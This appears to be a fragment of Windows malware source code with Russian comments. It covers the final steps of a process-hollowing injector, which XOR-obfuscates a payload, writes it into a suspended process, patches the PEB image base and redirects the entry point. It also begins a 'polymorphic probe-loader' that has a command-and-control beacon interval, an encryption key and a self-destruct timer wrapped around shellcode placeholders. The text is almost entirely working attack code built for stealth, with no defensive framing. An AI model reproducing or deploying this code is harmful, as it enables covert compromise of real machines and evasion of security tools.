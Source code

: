     // 9. Криптостойкая обфускация с переменным ключом и структурой
    for (SIZE_T i = 0; i < payloadSize; i++) {
        // Полиморфный XOR с вариативным ключом
        BYTE key = (BYTE)((i * 0x1A) ^ (i >> 3) ^ 0x3D);
        obfuscatedPayload[i] = ((BYTE*)pPayload)[i] ^ key;
    }
    
    // 10. Записываем обфусцированную полезную нагрузку в целевой процесс
    WriteProcessMemory(pi.hProcess, imageBase, obfuscatedPayload, payloadSize, &bytesRead);
    free(obfuscatedPayload);
    
    // 11. Обновляем PEB, чтобы указать на новый образ
    #ifdef _WIN64
        WriteProcessMemory(pi.hProcess, (PVOID)((PBYTE)pPEB + 0x10), 
                          &imageBase, sizeof(PVOID), &bytesRead);
    #else
        WriteProcessMemory(pi.hProcess, (PVOID)((PBYTE)pPEB + 0x8), 
                          &imageBase, sizeof(PVOID), &bytesRead);
    #endif
    
    // 12. Устанавливаем точку входа
    #ifdef _WIN64
        ctx.Rcx = (DWORD64)(PBYTE)imageBase + pNtHdrs->OptionalHeader.AddressOfEntryPoint;
    #else
        ctx.Eax = (DWORD)(PBYTE)imageBase + pNtHdrs->OptionalHeader.AddressOfEntryPoint;
    #endif
    
    // 13. Устанавливаем новый контекст потока
    SetThreadContext(pi.hThread, &ctx);
    
    // 14. Возобновляем поток
    ResumeThread(pi.hThread);
    
    return TRUE;
}

6. Полиморфный зонд-загрузчик

// Минимальный автономный зонд с возможностью самомодификации
typedef struct _PROBE_CONFIG {
    GUID   ProbeID;               // Уникальный ID зонда
    BYTE   EncryptionKey[32];     // Ключ шифрования коммуникации
    BYTE   InitialTarget[256];    // Начальная цель для анализа
    DWORD  CommunicationInterval; // Интервал связи с C2
    BYTE   SelfDestructTimer;     // Время жизни зонда (0 = бессрочно)
    DWORD  Capabilities;          // Битовые флаги возможностей
} PROBE_CONFIG;

// Полиморфный генератор кода зондов
BYTE* GeneratePolymorphicProbe(PPROBE_CONFIG pConfig, SIZE_T* pSize) {
    // Базовый шаблон зонда
    BYTE probeTemplate[] = {
        // [Базовый шелл-код зонда с заполнителями для конфигурации]
    };
    
    // Размер выходного зонда
    *pSize = sizeof(probeTemplate) + sizeof(PROBE_CONFIG);
    